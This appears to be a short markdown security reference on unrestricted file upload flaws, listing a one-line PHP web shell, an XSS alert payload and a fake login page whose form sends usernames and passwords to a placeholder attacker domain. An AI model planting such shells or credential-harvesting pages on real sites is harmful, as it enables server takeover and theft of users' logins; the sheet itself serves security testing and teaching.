

# Unrestricted File Upload

## Table of Contents
- [Upload a web shell](#upload-a-web-shell)
- [Upload a file with an HTML extension](#upload-a-file-with-an-html-extension)
- [Distribute malicious files](#distribute-malicious-files)

## Upload a web shell

### Arbitrary commands can be executed with the web service's execute privileges.[^1]

- Execute system commands
    ```php
    <?php system('whoami'); ?>
    ```

## Upload a file with an HTML extension

### Attacks such as XSS or phishing can be performed on trusted domains.

- XSS
    ```html
    <script>alert()</script>
    ```

- Phishing
    ```html
    <html>
        <title>Fake Login Page</title>
        <body>
            <h2>Login to Your Account</h2>
            <form action="https://[ATTACKER-DOMAIN]" method="POST">
                <input type="text" name="username" placeholder="Username" required>
                <input type="password" name="password" placeholder="Password" required>
                <input type="submit" value="Login">
            </form>
        </body>
    </html>
    ```
   

## Distribute malicious files

### Malicious files can be distributed by leveraging the domain's reputation.

- exe, bat, dmg...
   

[^1]: It is possible only when files with the same extension as the language running on the service can be uploaded, and execute permissions are granted to the file.
